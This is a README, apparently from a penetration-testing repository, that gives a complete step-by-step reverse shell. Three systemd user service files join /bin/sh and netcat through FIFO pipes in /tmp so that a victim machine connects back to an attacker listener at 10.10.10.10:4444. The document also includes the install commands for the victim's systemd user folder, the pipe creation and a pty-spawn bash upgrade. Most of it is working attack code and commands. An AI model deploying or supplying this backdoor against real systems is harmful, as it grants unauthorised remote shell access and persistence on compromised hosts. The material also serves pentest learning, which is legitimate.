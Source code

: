 # Netcat Without The E

## Description

**NOTE**: This is a reimplementation of Ed Skoudis' "Netcat without -e? No Problem!" blog post.
Unfortunately, it looks like the original blog post has been moved/taken down, but a version on Archive.org still exists.
Link in Additional Notes.

This sequence of commands sets up a reverse shell using two separate services - a `nc` one and a `sh` one -
which interact by sharing FIFO pipes set up in `/tmp`. A third service is used to activate the shell, but it could easily be
replaced by a simple "echo" command on its own.

The shell service file (`revsh.service`) uses:

* The `ExecStart` directive to execute the terminal shell (additional shell redirects can be found in the link below; **not my repository**)
* The `StandardInput` directive uses the FIFO pipe `/tmp/backpipe` as a stream of commands to process
* The `StandardOutput` directive uses the FIFO pipe `/tmp/frontpipe` as a stream to send command output to

The network service file (`revnc.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)
* The `StandardInput` directive uses the FIFO pipe `/tmp/frontpipe` as a stream of command output to display to the attacker
* The `StandardOutput` directive uses the FIFO pipe `/tmp/backpipe` as a stream of commands for the shell service to process

The initializer service file (`revinit.service`) uses:

* The `Type` directive to tell systemd it doesn't need to treat this like a daemon
* The `StandardOutput` directive uses the FIFO pipe `/tmp/backpipe` to notify `revsh.service` to activate once data is in its StandardInput file
* The `ExecStart` directive to specify what command to execute in the shell first

## Additional Notes

* [Netcat without -e? No Problem!](https://web.archive.org/web/20190305102845/https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/)
* The message that initializes the shell simply invokes `bash` in a subshell, which gives the attacker access to tab-completion and various special characters that a regular `sh` would not
* Another way to visualize how the I/O streams are set up is:

  ```sh
                -->  /bin/sh  -->
  /tmp/backpipe |               | /tmp/frontpipe
                <--  /bin/nc  <--
  ```

## Step by Step

1. Stand up listener on attacker server

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
```

2. Generate the service files

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell - sh half

[Service]
Type=simple
; https://github.com/fijimunkii/bash-dev-tcp
StandardInput=file:/tmp/backpipe
StandardOutput=file:/tmp/frontpipe
ExecStart=/bin/sh
```

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell - nc half

[Service]
Type=simple
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
StandardInput=file:/tmp/frontpipe
StandardOutput=file:/tmp/backpipe
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStart=/usr/bin/nc ${RHOST} ${RPORT}
```

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell - initializing the pipe

[Service]
Type=oneshot
StandardOutput=file:/tmp/backpipe
ExecStart=/usr/bin/echo "python -c \"import pty;pty.spawn('/bin/bash')\""
```

3. Install services into the systemd user folder on the victim and reload the shell

```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/revsh.service ~/.config/systemd/user/
$ ln -s `pwd`/revnc.service ~/.config/systemd/user/
$ ln -s `pwd`/revinit.service ~/.config/systemd/user/
$ systemctl --user daemon-reload
```

4. Create the FIFO pipes

```sh
$ mknod --mode=0666 /tmp/backpipe p
$ mknod --mode=0666 /tmp/frontpipe p
```

6. Start the services

```sh
$ systemctl --user start rev*
```

7. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
user@victim:~$
```
